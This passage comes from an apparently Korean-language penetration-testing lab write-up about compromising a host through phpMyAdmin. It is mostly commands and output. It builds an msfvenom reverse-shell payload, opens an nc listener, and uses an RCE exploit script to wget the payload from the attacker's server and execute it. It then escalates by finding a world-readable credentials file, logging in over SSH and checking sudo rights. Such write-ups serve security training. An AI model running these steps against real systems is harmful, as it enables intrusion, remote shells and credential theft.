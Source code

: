     www-data
    ```
 - 개념증명이 성공 했으므로 리버스 쉘 연결을 위한 리버스 쉘 페이로드 생성 및 nc를 사용하여 리버스 쉘 연결 포트 오픈
    ```bash
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.0.140 LPORT=443 -f elf -o revshell.elf

    nc -lvnp 443
    ```

 - 임의의 포트를 오픈한 뒤 RCE 취약점을 사용하여 리버스 쉘 전송 및 실행
    ```sh
    python3 -m http.server 3333

    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "wget http:10.8.0.140:3333/revshell.elf -O /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "chmod +x /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "/tmp/reverse"
    ```

 - 호스트 리버스 쉘 연결 성공
    ```sh
    listening on [any] 443 ...
    connect to [10.8.0.140] from (UNKNOWN) [172.31.249.155] 34848
    whoami;hostname;id
    www-data
    ip-172-31-249-155
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

### 권한 상승
- 수동으로 호스트 점검 결과 루트 디렉토리에 퍼미션 777인 .bobbyz_creds.txt 파일 발견
    ```sh
    find / -type f -perm 777 2>/dev/null

    /.bobbyz_creds.txt
    ```

 - .bobbyz_creds.txt 파일 확인 결과 bobbyz 계정 아이디와 패스워드 확인
    ```sh
    cat ./.bobbyz_creds.txt

    Vault server breakglass creds - bobbyz:qwerty12
    ```
 - SSH를 사용하여 해당 ID로 호스트 로그인 시도
    ```sh
    ssh bobbyz@172.31.249.155

    bobbyz@ip-172-31-249-155:~$ whoami; hostname; id
    bobbyz
    ip-172-31-249-155
    uid=1001(bobbyz) gid=1001(bobbyz) groups=1001(bobbyz)
    ```

 - bobbyz 계정으로 로그인 한 뒤 `sudo -l` 명령어를 사용하여 확인결과 bobbyz 계정은 패스워드 사용없이 bash 쉘 사용 가능
    ```sh
    bobbyz@ip-172-31-249-155:~$ sudo -l
    Matching Defaults entries for bobbyz on ip-172-31-249-155:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
